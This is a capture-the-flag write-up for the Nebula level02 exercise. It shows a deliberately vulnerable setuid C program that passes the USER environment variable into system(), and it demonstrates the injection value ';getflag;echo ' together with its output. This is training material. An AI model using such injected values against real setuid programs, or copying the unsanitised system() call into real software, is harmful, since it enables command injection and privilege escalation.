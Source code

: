 +++
author = "pwntester"
categories = ["nebula02"]
date = 2013-11-20T11:18:00Z
description = ""
draft = false
slug = "nebula-level02-write-up"
tags = ["nebula02"]
title = "Nebula level02 write-up"

+++

[Level02](http://exploit-exercises.com/nebula/level02) is about command injection. We are given the following vulnerable code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

As shown in the code, the program will use the **USER** environment variable to build the command executed by **system** so all we need to do is inject our **getflag** command:

```lang-bash line-numbers 
level02@nebula:/home/flag02$ export USER=";getflag;echo "
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;getflag;echo  is cool")

You have successfully executed getflag on a target account
is cool
```
